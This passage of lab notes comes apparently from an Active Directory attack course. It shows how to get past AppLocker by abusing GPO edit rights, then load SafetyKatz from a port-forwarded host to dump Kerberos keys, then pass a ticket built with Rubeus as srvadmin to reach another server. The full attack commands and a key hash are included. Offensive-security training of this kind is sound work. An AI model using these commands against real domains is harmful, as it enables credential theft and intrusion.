SO if we change `AppLockerGPO` with using our `student` user that is part of `RDPUsers` group, we can affect the `dcorp-adminsrv` `APPlocker` rules.
- ![[Pasted image 20261122140218.png|621]]
- ![[Pasted image 20261122140245.png|503]]

## .exe execution blocked
We have access to `dcorp-adminsrv`.

We open a cmd on `dcorp-adminsrv` and try to execute `safetykatz` copying the loader in the public folder of `dcorp-mgmt`, setting the tcp forwarding rule and downloading it from studentVM:
```powershell
 echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-adminsrv\C$\Users\Public\Loader.exe
 
 winrs -r:dcorp-adminsrv cmd
 
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.55

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::evasive-keys" "exit"

```
- ![[Pasted image 20261122141955.png]]
- We can see that `AppLocker` blocks the execution of our `Loader.exe`

But we know that `student555` leveraging on `RDPUsers` can change the `GPO` of `APPLocker`.

So what we do is:
1. Run a `admin` cmd on `student555` VM
2. run `gpmc.msc`
```powershell
gpmc.msc
```
3. `Forrest` -> `Domains` -> `dollarcorp...`-> `Applocked`->`Applocker`->`Edit` -> 'Policies' -> `Windows Settings` -> `Security settings` -> `Application Control Policies` -> `AppLocker` -> `Executable Rules` -> `Remove the rule`
	1. ![[Pasted image 20261122142646.png|514]]
	2. ![[Pasted image 20261122142733.png|510]]


Now we force on `dcorp-adminsrv` the update of the GPOs:
```powershell
gpupdate /force
```
- ![[Pasted image 20261122142916.png]]

At this point we can redo the execution:
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::evasive-keys" "exit"
```
- ![[Pasted image 20261122152656.png]]

SO if we do on our `student555` machine as administrator:
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:srvadmin /aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- if we run `winrs -r:dcorp-mgmt cmd` we can see we are on `dcorp-adminsrv` and we can connect to `dcorp-mgmt` with `srvadmin` creds
- ![[Pasted image 20261122153258.png]]


![[Pasted image 20261122171848.png]]